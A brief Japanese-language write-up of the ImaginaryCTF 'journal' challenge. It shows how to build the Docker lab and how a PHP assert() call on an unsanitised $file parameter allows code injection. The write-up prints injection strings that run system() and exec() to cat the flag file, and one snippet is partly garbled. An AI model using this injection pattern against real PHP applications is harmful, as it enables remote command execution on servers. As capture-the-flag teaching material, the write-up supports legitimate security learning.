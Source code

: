 # journal

## 問題 環境構築

### 追加ファイル

- flag.txt

### 実行コマンド

コンテナイメージ作成

```
docker build -t ImaginaryCTF/journal .
```

```
docker run -p 8080:80 --name jounal ImaginaryCTF/journal
```

## Writeup

phpファイル

```php
assert("strpos('$file', '..') === false") or die("Invalid file!");
```

``$file``をうまい文字列にすることでコマンドを実行するコードを埋め込むことができる

```php
assert("strpos('
system    ','..') === false | exec("cat /flag-kK9PEhVszjyXDTvrZfDO.txt") | strpos('
', '..') === false") or die("Invalid file!");
```

```php
assert("strpos('','..') === false | system("cat /flag-kK9PEhVszjyXDTvrZfDO.txt") | strpos('', '..') === false") or die("Invalid file!");
```

phpのsystem関数はコマンドを実行して出力を表示する関数

[phpマニュアル system](https://www.php.net/manual/ja/function.system.php)

似たような関数でexec関数がある

execは出力しないで変数に格納する

[PHPのsystem関数とexec関数の違いと使い方](https://masanyon.com/php-system-exec/)

## 参考

https://www.cnblogs.com/sijidou/p/10573275.html
